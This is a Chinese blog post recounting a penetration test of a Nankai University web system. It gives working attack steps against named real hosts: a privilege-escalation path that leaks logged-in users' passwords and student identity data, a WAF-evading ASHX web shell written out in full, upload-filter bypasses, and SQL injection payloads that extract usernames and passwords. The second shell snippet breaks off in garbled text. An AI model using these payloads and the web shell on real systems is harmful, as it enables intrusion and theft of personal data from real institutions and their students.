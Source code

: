 ```yaml
---
# date是手动设置此篇文章编写的时间
date: "2022/08/20 17:00"

# 手动设置此篇文章封面
coverUrl: "image/1.png"

# 是否置顶
stick: false

# 设置keyword 多个以,分开
keyword: 渗透测试,EDU,web安全
# 设置description
description: 南开大学某系统的渗透测试
# 手动设置标题，否则使用h1标签作为标题
title: 南开大学某系统的渗透测试

# 这是设置标签，数组形式
tag: [EDU]

# 这里设置类别，数组形式
categories: [Edu渗透测试]



---
```




# 漏洞点1：越权

url:https://xxxx.xxxxx.edu.cn  
某开大学证书站 (同系统不同站  思路一样)
通过superadmin账号登录获取日志接口信息
password替换成
ecfe6335568d9aa8fxxxxxxxd92bca
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/d38b1545fdc34ab9b04b85ad25d47dea.png)

日志接口获取所有登录过的账号和密码
post /sys/log/loadLogLoginAndOutList
rows=10&page=2&order=asc&remote_ip=&username=&startTime=&endTime=
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/3db9c50420e94e96aa797252ebd1d1fb.png)

拿获取的学生账号登录

> 15xxxxxx 3a45
> 3xxxxxxxxxxxx1eef6d9

接口获取学生个人信息，身份证+姓名+学号

> /gradms/base/infoStutrainInfo/loadInfoStutrainInfoList?state=1

GET改为POST传输

> rows=10&page=1&order=asc&orgCode=&majorUniqueId=&grade=&perNum=&perName=

page是页数

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/9d3750f871364dfdba69f65b612a59f9.png)

```bash
POST /auth/switchPosition
positionId=1
```

直接成为管理员


# 漏洞点2：文件上传GetShell

## 漏洞1：

网站存在一处上传
WAF是安全狗的  头像处
先上传一个11.jpg的文件，然后抓包的时候改成11.html.ashx
然后记住

> 104DCCCA002D5F067BFD970D2CF37410

这样就绕过检测
直接上传11.ashx会waf拦截
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/427eca1dd4384cc5b66c197fe27dde74.png)

然后继续吧得到的Ticket替换之前成11.html.ashx的
然后插入免杀一句话，11.jpg改成11.html.ashx并且替换ticket改成 

> 104DCCCA002D5F067BFD970D2CF37410


![在这里插入图片描述](https://img-blog.csdnimg.cn/051c5e142e684df78bd5fb9fba9fdd00.png)

WAF检测文件名和内容
这里用到两个脚本一个是ashx免杀马
一个是生成文件的马，都能绕过安全狗检测
ashx马：

```bash
<%@ Language="C#" Class="Handler1" %>
public class Handler1 : System.Web.IHttpHandler,System.Web.SessionState.IRequiresSessionState
{
public void ProcessRequest(System.Web.HttpContext Context) { try{string key = "202cb962ac59075b";string pass = "123";string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pass + key))).Replace("-", "");byte[] data = System.Convert.FromBase64String(Context.Request[pass]);data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(data, 0, data.Length);if (Context.Session["payload"] == null){ Context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data }); ;}else{ object o = ((System.Reflection.Assembly)Context.Session["payload"]).CreateInstance("LY"); o.Equals(Context); o.Equals(data); byte[] r = System.Convert.FromBase64String(o.ToString()); Context.Response.Write(md5.Substring(0, 16)); Context.Response.Write(System.Convert.ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(r, 0, r.Length))); Context.Response.Write(md5.Substring(16));}}catch(System.Exception){} } public bool IsReusable { get { return false; } } }
ashx生成马:
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {
public void ProcessRequest (HttpContext context) { context.Response.ContentType = "text/plain"; //偬(頤
```


目录遍历（全局都是遍历）
可以看到解析了并且内容也出来了

![在这里插入图片描述](https://img-blog.csdnimg.cn/94c7f0bdbf1241739376ae015e0ed008.png)

 

## 漏洞2

账号注册随意  一般都有头像上传或者申请要上传证件照什么的
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/94720eea5a2a472e9824545db93d8a27.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/94446189c2c24e53a9a228768fa0879a.png)


如果上传php-waf的话拦截

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/8ec9be3f48eb4f8c996873b00736bc36.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2ec72f4f57e24da48551371c56a238d7.png)


> Content-Disposition: form-data; name="file"; filename="1.html 
> Content-Disposition: filename="."

双写Content-Disposition拼接绕过
判断第一个filename获取不到闭合换下行组合白名单闭合绕过

## 漏洞点3：SQL注入两处Bypass

注入点

> /apps/MyVideo/TeacherSchool/MyStudent.aspx

注入绕过

> 11'+//AND+//(//SELECT//+2868+//FROM//+(//SELECT//(SLEEP(2)))pcFy)+//AND//+'


![在这里插入图片描述](https://img-blog.csdnimg.cn/0dee56a7da9f48028788768b9a83eeee.png)



> https://xxxx.nankai.edu.cn/http/77726476706e69737468656265737421f2e30f92263e635177468ca88d1b203b/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(),concat((select%20(select%20(select%20concat(username,0x27,password)%20from%20cdb_members%20limit%201)%20)%20from%20information_schema.tables%20limit%200,1),floor(rand(0)2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

 ![在这里插入图片描述](https://img-blog.csdnimg.cn/6572ece8bc0c4a36ae4e00eb99a1debb.png)

成功注入出数据



